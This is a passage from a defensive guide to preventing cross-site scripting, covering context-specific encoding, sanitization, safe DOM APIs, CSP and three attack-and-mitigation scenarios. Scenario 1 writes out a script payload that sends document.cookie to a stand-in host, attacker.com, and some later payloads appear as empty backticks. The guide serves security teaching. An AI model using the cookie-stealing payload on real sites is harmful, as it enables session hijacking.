- Encode parameter values, not entire URLs
- Follow W3C URL encoding specification

**When to Use:**
- URL parameters: `<a href="/page?param=userInput">`
- URL fragments and paths
- `href` and `src` attributes containing URLs

**Implementation Considerations:**
- Use `encodeURIComponent()` in JavaScript for URL parameter encoding
- Validate URL schemes (allow only `http://` and `https://`, block `javascript:`)
- Canonicalize URLs before validation
- Combine URL encoding with HTML attribute encoding when URLs appear in HTML attributes

**CSS Encoding**

Used when placing untrusted data in CSS contexts.

**Encoding Rules:**
- Use `\XX` or `\XXXXXX` format (hexadecimal)
- Add space after encoding or use full six-character format
- Alphanumeric characters remain unencoded

**When to Use:**
- CSS property values: `<div style="color: userInput">`
- Inline styles and stylesheets
- Only in CSS property values, not selectors

**Implementation Considerations:**
- CSS is powerful and has been used for various attacks
- Avoid placing variables in CSS selectors or other unsafe CSS contexts
- Use `style.property = value` in JavaScript which automatically CSS encodes

#### 2. HTML Sanitization

HTML sanitization is necessary when applications must allow users to author HTML content. It removes dangerous elements and attributes while preserving safe formatting.

**When to Use:**
- WYSIWYG editors and rich text fields
- Content management systems
- User-generated content requiring HTML formatting
- When output encoding would break required functionality

**Implementation Approach:**
- Use well-maintained, battle-tested libraries (OWASP recommends DOMPurify)
- Regularly update sanitization libraries as browsers change and bypasses are discovered
- Configure sanitizers with appropriate allowlists for elements and attributes
- Never modify sanitized content after sanitization (it voids security efforts)
- Verify that libraries don't mutate sanitized strings

**Key Considerations:**
- Sanitization must understand HTML structure to prevent tag confusion attacks
- Different contexts may require different sanitization rules
- Sanitization should be applied server-side when possible
- Client-side sanitization can be bypassed and should not be the only defense

#### 3. Safe DOM APIs

Using safe DOM manipulation methods prevents DOM-based XSS by ensuring data is treated as text, not code.

**Safe Methods and Properties:**
- `textContent` - Sets text content, automatically HTML entity encodes
- `innerText` - Similar to textContent (but be aware of context-specific issues)
- `setAttribute()` - For safe attributes (not event handlers)
- `createTextNode()` - Creates text nodes safely
- `createElement()` - Creates elements safely when combined with safe property setters

**Unsafe Methods to Avoid:**
- `innerHTML` - Directly inserts HTML, can execute scripts
- `outerHTML` - Similar to innerHTML
- `document.write()` - Writes HTML directly to document
- `document.writeln()` - Similar to document.write()
- `eval()` - Executes JavaScript from strings
- `setTimeout()` / `setInterval()` with string arguments
- `Function()` constructor with string arguments

**Implementation Guidelines:**
- Prefer `textContent` over `innerHTML` whenever possible
- Use `createElement()` and `appendChild()` to build DOM structures dynamically
- Set attributes using `setAttribute()` for safe attributes
- For event handlers, assign functions directly, not strings

#### 4. Content Security Policy (CSP)

CSP is a defense-in-depth mechanism that restricts resource loading and script execution.

**Implementation Approach:**
- Configure CSP headers to prevent inline script execution
- Use nonce-based or hash-based CSP for required inline scripts
- Restrict script sources to trusted domains
- Enable CSP reporting to monitor violations
- Start with report-only mode to identify issues before enforcement

**Key Directives:**
- `script-src` - Controls script execution sources
- `default-src` - Fallback for other resource types
- `object-src` - Controls plugin execution
- `base-uri` - Restricts base tag URLs
- `form-action` - Restricts form submission targets

**Considerations:**
- CSP should complement, not replace, output encoding
- Proper CSP implementation requires careful configuration
- Legacy applications may require gradual CSP adoption
- Browser support varies for advanced CSP features

### Alternative Approaches and When to Use Them

#### Framework-Specific Protections

Modern frameworks provide built-in XSS protections:

**React:**
- Automatic escaping in JSX
- `dangerouslySetInnerHTML` requires explicit opt-in (use with sanitization)
- Validate `javascript:` and `data:` URLs if used

**Angular:**
- Automatic sanitization in templates
- `bypassSecurityTrust*` functions bypass protections (use with extreme caution)
- Understand Angular's sanitization contexts

**Vue:**
- Automatic escaping in templates
- `v-html` directive requires sanitization
- Use Vue's recommended sanitization approaches

**When to Use:**
- Prefer framework protections for new applications
- Understand framework escape hatches and avoid them when possible
- Keep frameworks updated to receive security patches
- Don't assume frameworks are perfect; understand their limitations

#### Secure Cookie Attributes

While not a direct XSS prevention technique, secure cookie attributes limit the impact of XSS attacks:

**HttpOnly Flag:**
- Prevents JavaScript access to cookies
- Mitigates session cookie theft via XSS
- Should be used for all session and authentication cookies

**Secure Flag:**
- Ensures cookies only sent over HTTPS
- Prevents interception of cookies

**SameSite Attribute:**
- Restricts when cookies are sent with cross-site requests
- Helps prevent CSRF and limits some XSS impact

**When to Use:**
- Apply to all sensitive cookies (session, authentication, CSRF tokens)
- Use in combination with output encoding, not as replacement
- Configure at application level for all cookie-setting operations

#### Web Application Firewalls (WAFs)

WAFs attempt to detect and block XSS attack patterns in HTTP requests.

**Limitations:**
- WAFs are unreliable and bypasses are regularly discovered
- Don't address root cause of vulnerabilities
- Miss DOM-based XSS entirely (client-side only)
- Can produce false positives and negatives
- Not recommended as primary XSS defense

**When to Consider:**
- As additional monitoring layer (not prevention)
- For legacy applications undergoing remediation
- Should never replace proper output encoding and input validation

### Implementation Considerations

#### Context-Aware Encoding

The most critical implementation consideration is understanding the rendering context and applying the correct encoding method. Using the wrong encoding (e.g., HTML encoding in a JavaScript context) will not prevent XSS.

**Best Practices:**
- Identify the exact context where data will be rendered
- Use context-specific encoding functions
- Test encoding in the actual rendering context
- Document encoding requirements for each output location

#### Encoding Library Selection

Choose encoding libraries that:
- Understand context-specific encoding requirements
- Are actively maintained and updated
- Follow OWASP recommendations (e.g., OWASP Java Encoder, ESAPI)
- Support all required encoding types (HTML, JavaScript, URL, CSS)
- Work with your technology stack

#### Double Encoding Prevention

Avoid encoding data multiple times, which can break functionality:
- Encode data once, at output time
- Don't encode at input time and again at output time
- Be aware of framework automatic encoding to avoid double encoding
- Test with special characters to verify encoding works correctly

#### Legacy Application Considerations

For legacy applications:
- Prioritize high-risk areas (user input, administrative interfaces)
- Gradually implement output encoding
- Use HTML sanitization for user-generated content areas
- Implement CSP in report-only mode first
- Consider framework migration for long-term security

#### Testing and Validation

Regular testing is essential:
- Use automated security scanning tools
- Perform manual penetration testing
- Test with various payloads in different contexts
- Verify encoding in actual browser environments
- Monitor CSP violation reports
- Review code changes for unsafe patterns

---

## Real-World Attack Scenarios

### Scenario 1: Reflected XSS in Search Functionality

#### Attack Flow

A web application includes a search feature that displays the user's search query on the results page. The application constructs the results page by directly inserting the search parameter into the HTML without proper encoding.

**Step-by-Step Attack Explanation:**

1. **Reconnaissance**: The attacker identifies that the application has a search feature accessible via URL parameters (e.g., `https://example.com/search?q=userQuery`).

2. **Vulnerability Discovery**: The attacker tests the search functionality with a simple payload like `<script>alert('XSS')</script>` and observes that the search term is reflected in the page without encoding.

3. **Payload Crafting**: The attacker creates a malicious URL containing JavaScript code in the search parameter. The payload is designed to steal the user's session cookie: `https://example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

4. **Social Engineering**: The attacker embeds this URL in a phishing email, social media post, or malicious website, making it appear legitimate (e.g., using URL shortening services or encoding).

5. **Victim Interaction**: The victim clicks the malicious link while potentially authenticated to the target application.

6. **Request Processing**: The victim's browser sends a GET request to the vulnerable application with the malicious payload in the `q` parameter.

7. **Server Response**: The server processes the search request and generates an HTML response that includes the unencoded search query: `<div>Your search for: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script> returned no results.</div>`

8. **Script Execution**: The victim's browser receives the response and parses the HTML. When it encounters the `<script>` tag, it executes the JavaScript code.

9. **Cookie Theft**: The malicious script accesses `document.cookie`, which contains the user's session identifier, and sends it to the attacker's server via a request to `http://attacker.com/steal?cookie=...`

10. **Session Hijacking**: The attacker receives the stolen session cookie and can use it to impersonate the victim, accessing their account and performing actions on their behalf.

#### Mitigation Application

To prevent this attack, multiple defense layers should be applied:

**Primary Defense - Output Encoding:**

The search query must be HTML entity encoded before being inserted into the HTML response. Instead of directly inserting the user input, the application should:

1. **Identify the Rendering Context**: The search query is being placed in an HTML body context (between `<div>` tags).

2. **Apply HTML Entity Encoding**: Encode the search parameter using HTML entity encoding:
   - `<` becomes `&lt;`
   - `>` becomes `&gt;`
   - `"` becomes `&quot;`
   - `'` becomes `&#x27;`
   - `&` becomes `&amp;`

3. **Safe Output**: The encoded output would render as: `<div>Your search for: &lt;script&gt;document.location=...&lt;/script&gt; returned no results.</div>`

4. **Browser Interpretation**: The browser interprets the encoded characters as displayable text, not executable code. The script tags are displayed as text on the page rather than being executed.

**Additional Defenses:**

- **Input Validation**: Validate search queries to reject obviously malicious patterns, though this should not be the primary defense.

- **Content Security Policy**: Implement CSP headers to prevent inline script execution, providing defense-in-depth even if encoding fails.

- **Secure Cookie Attributes**: Use `HttpOnly` flag on session cookies to prevent JavaScript access, limiting the impact if XSS occurs.

- **URL Validation**: Validate and sanitize URL parameters at the application boundary.

#### Attack Workflow Diagram



#### Mitigation Workflow Diagram



---

### Scenario 2: Stored XSS in User Comments

#### Attack Flow

A web application allows users to post comments on articles or forum posts. These comments are stored in a database and displayed to all users who view the page. The application stores user comments without sanitization and displays them without proper encoding.

**Step-by-Step Attack Explanation:**

1. **Account Creation**: The attacker creates a legitimate user account on the target application to gain access to the comment functionality.

2. **Vulnerability Discovery**: The attacker posts a test comment containing HTML tags to determine if the application filters or encodes user input. The comment `<b>test</b>` is posted and observed.

3. **Payload Submission**: The attacker crafts a malicious comment containing JavaScript code designed to steal session cookies from anyone who views the comment. The payload might be: ``

4. **Storage**: The application accepts the comment and stores it in the database without sanitization or encoding. The malicious payload is now permanently stored.

5. **Automatic Propagation**: Unlike reflected XSS, the attacker doesn't need to trick users into clicking a link. The attack automatically affects anyone who views the page containing the malicious comment.

6. **Victim Access**: A legitimate user (potentially an administrator with elevated privileges) visits the page containing the malicious comment.

7. **Page Rendering**: The server retrieves the comment from the database and generates an HTML page that includes the unencoded malicious payload in the comment section.

8. **Script Execution**: The victim's browser receives the HTML response and begins rendering the page. When it processes the `` tag with the `onerror` attribute, the browser attempts to load the image. Since the `src` is invalid (`"x"`), the `onerror` event fires.

9. **Malicious Code Execution**: The JavaScript in the `onerror` handler executes. This code creates a new image object and sets its source to the attacker's server with the victim's cookie as a parameter.

10. **Cookie Exfiltration**: The browser makes a request to the attacker's server: `http://attacker.com/steal?cookie=SESSION_ID`, automatically including the victim's session cookie.

11. **Mass Impact**: Every user who views the page containing the malicious comment becomes a victim. The attack scales automatically without additional action from the attacker.

12. **Persistent Threat**: The malicious comment remains in the database until manually removed, continuing to affect new users who view it.

#### Mitigation Application

Preventing stored XSS requires defenses at both storage and retrieval points:

**Primary Defense - Output Encoding:**

1. **Encoding at Display Time**: When retrieving comments from the database and displaying them, apply HTML entity encoding to all comment content before inserting it into the HTML response.

2. **Context Identification**: Comments are displayed in HTML body context, requiring HTML entity encoding for special characters.

3. **Safe Rendering**: Encoded comments render as safe text. For example, `` becomes `&lt;img src=&quot;x&quot; onerror=&quot;...&quot;&gt;`, which displays as text rather than executing.

**Alternative Approach - HTML Sanitization:**

If the application needs to allow some HTML formatting in comments (bold, italic, links), HTML sanitization should be used instead of encoding:

1. **Sanitization Library**: Use a well-maintained library like DOMPurify to sanitize comment content.

2. **Allowlist Configuration**: Configure the sanitizer with an allowlist of safe HTML elements and attributes (e.g., `<b>`, `<i>`, `<a href>` with validated URLs).

3. **Dangerous Content Removal**: The sanitizer removes or neutralizes dangerous elements like `<script>`, `` with event handlers, and other executable content.

4. **Storage**: Store the sanitized version in the database, or sanitize at display time (preferred to allow re-sanitization with updated rules).

**Additional Defenses:**

- **Input Validation**: Validate comment length, character sets, and format at submission time.

- **Content Security Policy**: Implement CSP to prevent inline event handlers and restrict script execution sources.

- **Moderation Workflow**: Implement comment moderation to review content before publication, though this should not be the primary security control.

- **Administrative Protections**: Ensure administrative interfaces that display comments also apply encoding/sanitization, as admins are high-value targets.

- **Database Security**: While encoding happens at display time, consider storing a sanitized version to prevent accidental unsafe rendering.

#### Attack Workflow Diagram



#### Mitigation Workflow Diagram



---

### Scenario 3: DOM-Based XSS via URL Fragment

#### Attack Flow

A web application uses client-side JavaScript to read a value from the URL fragment (the part after `#`) and dynamically updates the page content. The application uses unsafe DOM manipulation methods like `innerHTML` to insert the fragment value into the page without encoding.

**Step-by-Step Attack Explanation:**

1. **Application Analysis**: The attacker examines the client-side JavaScript code (either through browser developer tools or by obtaining the source code) and identifies that the application reads from `window.location.hash`.

2. **Vulnerability Identification**: The attacker discovers code similar to: `document.getElementById('content').innerHTML = window.location.hash.substring(1);` This code takes everything after the `#` in the URL and directly inserts it into the page using `innerHTML`.

3. **Payload Crafting**: The attacker crafts a malicious URL with JavaScript code in the fragment: `https://example.com/page#`

4. **Key Insight**: The attacker understands that DOM-based XSS occurs entirely in the browser. The malicious payload is never sent to the server (URL fragments are not included in HTTP requests), making server-side defenses ineffective.

5. **URL Distribution**: The attacker shares the malicious URL through various channels (email, social media, embedded in other websites) or waits for users to click it.

6. **Victim Navigation**: A victim clicks the malicious URL or is redirected to it. The browser navigates to `https://example.com/page` and the fragment `#` remains in the address bar.

7. **Page Load**: The server sends the initial HTML page to the browser. This page contains the vulnerable JavaScript code but no malicious content (since fragments aren't sent to the server).

8. **Client-Side Execution**: After the page loads, the client-side JavaScript executes. The code reads `window.location.hash`, which contains the malicious payload.

9. **Unsafe DOM Manipulation**: The JavaScript extracts the fragment value (removing the `#`) and uses `innerHTML` to insert it directly into the DOM: `document.getElementById('content').innerHTML = ''`

10. **HTML Injection**: The `innerHTML` property interprets the string as HTML markup and creates an `` element with an `onerror` event handler.

11. **Event Trigger**: The browser attempts to load the image from source `"x"`, which fails, triggering the `onerror` event.

12. **Script Execution**: The JavaScript code in the `onerror` handler executes, accessing `document.cookie` and potentially exfiltrating the session cookie to an attacker-controlled server.

13. **Server Unawareness**: Throughout this process, the server never sees the malicious payload because URL fragments are not included in HTTP requests. Server-side logging, WAFs, and input validation cannot detect or prevent this attack.

#### Mitigation Application

DOM-based XSS requires client-side defenses since the attack never reaches the server:

**Primary Defense - Safe DOM APIs:**

1. **Replace Unsafe Methods**: Instead of using `innerHTML`, use safe DOM manipulation methods:
   - Replace `element.innerHTML = untrustedData` with `element.textContent = untrustedData`
   - The `textContent` property automatically treats input as text and applies HTML entity encoding

2. **Safe Fragment Handling**: When reading from `window.location.hash`, validate and encode the value:
   ```javascript
   // Instead of:
   document.getElementById('content').innerHTML = window.location.hash.substring(1);
   
   // Use:
   var hashValue = window.location.hash.substring(1);
   var encodedValue = encodeHTML(hashValue); // HTML entity encoding
   document.getElementById('content').textContent = encodedValue;
   ```

3. **Input Validation**: Validate URL fragment values against expected patterns (allowlist approach):
   - If the fragment should only contain alphanumeric characters, validate and reject anything else
   - Use strict validation based on business requirements

**Alternative Approach - Sanitization:**

If HTML content is required from the fragment:

1. **Client-Side Sanitization**: Use a client-side sanitization library like DOMPurify:
   ```javascript
   var hashValue = window.location.hash.substring(1);
   var sanitized = DOMPurify.sanitize(hashValue);
   document.getElementById('content').innerHTML = sanitized;
   ```

2. **Server-Side Validation**: Even though fragments don't reach the server, validate any data that might be derived from fragments and sent to the server in subsequent requests.

**Additional Defenses:**

- **Content Security Policy**: Implement strict CSP that prevents inline event handlers and restricts script sources. This provides defense-in-depth even if client-side code has vulnerabilities.

- **Avoid Fragment-Based Logic**: When possible, redesign the application to avoid using URL fragments for dynamic content that affects page rendering.

- **Framework Protections**: Use modern frameworks that provide safe DOM manipulation APIs and avoid direct `innerHTML` usage.

- **Code Review**: Regularly review client-side JavaScript for unsafe DOM manipulation patterns (`innerHTML`, `document.write()`, `eval()`, etc.).

#### Attack Workflow Diagram



#### Mitigation Workflow Diagram



---

## Conclusion

Cross-Site Scripting remains one of the most prevalent and dangerous web application vulnerabilities. Effective defense requires understanding the various XSS types (Reflected, Stored, and DOM-Based), recognizing the different rendering contexts where attacks can occur, and applying context-appropriate encoding and sanitization techniques.

The key to XSS prevention is treating all untrusted data as potentially dangerous and applying output encoding for the specific context where data will be rendered. Defense-in-depth strategies, including input validation, output encoding, HTML sanitization (when needed), Content Security Policy, and secure coding practices, provide robust protection against XSS attacks.

Organizations should prioritize output encoding as the primary defense mechanism, supplement it with additional layers of protection, and regularly test and review applications for XSS vulnerabilities. By following the principles and strategies outlined in this document, developers and security professionals can significantly reduce the risk of XSS vulnerabilities in web applications.

